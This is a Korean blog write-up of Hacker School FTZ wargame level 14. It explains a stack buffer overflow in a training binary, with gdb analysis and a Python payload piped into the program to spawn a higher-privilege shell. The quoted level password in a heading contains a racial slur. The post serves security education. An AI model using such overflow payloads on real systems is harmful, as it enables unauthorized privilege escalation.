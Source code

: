 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 14"
description: "Do you know the canary (2)?"
comments: true
categories: ftz
---
```


<img data-action="zoom" src='{{ "assets/ftz/level14/1.jpg" | relative_url }}' alt='relative'>  

## 1) level14/what that nigga want? 입력해 로그인  

<img data-action="zoom" src='{{ "assets/ftz/level14/2.png" | relative_url }}' alt='relative'>  

``` c
// attackme 프로그램의 소스파일
#include <stdio.h>
#include <unistd.h>

main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}
```

이번에도 attackme 프로그램을 실행시켜 버퍼 오버플로우를 일으켜 shell을 획득하는 문제로 보입니다.  
/tmp 디렉토리에 힌트에 적힌 소스코드를 복사해 파일을 하나 만듭니다.  
(저의 경우 소스코드는 at.c 파일명으로 저장했으며, 실행파일의 이름은 at로 지정했습니다.)  

그다음 gdb로 돌려 스택의 구성을 살펴보겠습니다.  

## 2) 해당 소스코드의 스택 구조 파악하기  

<img data-action="zoom" src='{{ "assets/ftz/level14/3.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level14/4.png" | relative_url }}' alt='relative'>  

어셈블리어 코드를 보면 그림과 같이 스택이 구성되어 있다는 것을 알 수 있습니다.  


사용자에게 문자열을 입력받은 뒤, &\[ebp-16\] 주소에 0xdeadbeef이 저장되어 있는지 확인하는 코드에서 브레이크를 걸고 실행해봅니다.  

``` bash
b *main+48
r <<< $(python -c 'print "\x90"*40+"\xef\xbe\xad\xde"')
```  

<img data-action="zoom" src='{{ "assets/ftz/level14/5.png" | relative_url }}' alt='relative'>  

입력한 내용과 같이 buf 배열의 길이는 20이지만 버퍼 오버플로우가 발생하여 사용자가 입력한 문자열 45 byte(문자열의 끝을 의미하는 NULL까지 더한 값) 모두 스택에 저장되어 있는 것을 볼 수 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level14/6.png" | relative_url }}' alt='relative'>  

``` bash
(python -c 'print "\x90"*40+"\xef\xbe\xad\xde"'; cat) | ./at
```

at 프로그램에 적용해보면 shell이 실행되는 것을 볼 수 있습니다.  

## 3) attackme 프로그램에 버퍼 오버플로우 일으키기  

<img data-action="zoom" src='{{ "assets/ftz/level14/7.png" | relative_url }}' alt='relative'>  

``` bash
(python -c 'print "\x90"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme
```

attackme 프로그램에 적용해 level15 권한으로 shell을 실행시켰으며 level15의 비밀번호를 획득했습니다.  